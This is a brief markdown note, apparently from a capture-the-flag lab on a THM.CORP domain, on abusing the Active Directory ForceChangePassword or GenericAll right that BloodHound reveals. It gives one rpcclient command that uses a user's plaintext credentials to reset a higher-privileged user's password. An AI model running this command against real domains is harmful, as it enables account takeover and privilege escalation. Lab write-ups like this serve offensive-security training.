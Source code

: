 ## ForceChangePassword

---

When in BloodHound ForceChangePassword or GenericAll is set,
we can abuse this command to change the password of an high priv user.

```
rpcclient -U 'THM.CORP\TABATHA_BRITT%marlboro(1985)' 10.10.82.118 \
-c 'setuserinfo2 SHAWNA_BRAY 23 "newpassword123!"'
```
